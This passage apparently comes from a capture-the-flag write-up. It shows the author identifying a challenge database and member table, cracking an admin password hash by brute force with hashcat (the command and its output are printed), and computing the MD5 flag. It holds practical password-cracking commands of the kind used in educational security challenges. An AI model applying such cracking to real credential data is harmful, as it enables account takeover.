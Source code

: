 By combining outputs of these 2 scripts we could see that database is **cdgate** and table name is **member**. These information were followed by a number of member records, the value for each record were in order of email, id, level, name, password, sex. There was only one user desktop@cdgate.xxx with level=1, the password was hashed hence we let hashcat do the rest:

<pre class="brush: bash; gutter: false; title: ; notranslate" title="">$ echo DDD9B83818DB7B634C88AD49396F54BD0DE31677 &gt; hash
$ ./hashcat-cli64.bin -m300 -a3 --bf-cs-buf=abcdefghijklmnopqrstuvwxyz0123456789 hash outdir
................
Charset...: abcdefghijklmnopqrstuvwxyz0123456789
Length....: 6
Index.....: 0/1 (segment), 2176782336 (words), 0 (bytes)
Recovered.: 0/1 hashes, 0/1 salts
Speed/sec.: - plains, 13.99M words
Progress..: 1360425204/2176782336 (62.50%)
Running...: 00:00:01:37
Estimated.: 00:00:00:58
ddd9b83818db7b634c88ad49396f54bd0de31677:etagcd
All hashes have been recovered
</pre>

Bingo! The password is **etagcd**, it’s time to build the flag:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&gt;&gt;&gt; hashlib.md5('cdgate|member|etagcd').hexdigest().upper();
'AB6FCA7FFC88710CFBC37D5DF9A25F3F'
</pre>
